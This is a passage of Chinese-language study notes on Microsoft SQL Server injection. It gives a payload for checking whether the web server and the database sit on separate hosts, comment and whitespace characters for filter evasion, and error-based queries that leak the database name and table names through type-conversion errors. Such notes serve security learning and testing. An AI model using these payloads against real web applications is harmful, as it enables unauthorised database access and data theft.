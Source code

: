 那么站库分离可以这么来判断

```mssql
select * from user where id='1'and host_name()=@@servername;--'
```

# 符号

注释符

```mssql
/* 
--
;%00
```

空白符号

```mssql
01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20	--暂时不了解为什么

/**/
```

运算

```mssql
--基本的不列举了，举几个特殊的
ALL 如果一组的比较都为true，则比较结果为true
AND 如果两个布尔表达式都为true，则结果为true；如果其中一个表达式为false，则结果为false
ANY 如果一组的比较中任何一个为true，则结果为true
BETWEEN 如果操作数在某个范围之内，那么结果为true
EXISTS  如果子查询中包含了一些行，那么结果为true
IN  如果操作数等于表达式列表中的一个，那么结果为true
LIKE    如果操作数与某种模式相匹配，那么结果为true
NOT 对任何其他布尔运算符的结果值取反
OR  如果两个布尔表达式中的任何一个为true，那么结果为true
SOME    如果在一组比较中，有些比较为true，那么结果为true
```

# 基本注入流程

此处利用mssql数据类型不一样比较报错，爆出当前数据库名

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and DB_NAME()>1;
```

```mssql
在将 nvarchar 值 'FanmvCMS' 转换成数据类型 int 时失败。
```

爆表名

```mssql
SELECT * FROM Fanmv_Admin WHERE AdminID=1 and 1=(SELECT TOP 1 name from sysobjects WHERE xtype='u');
```
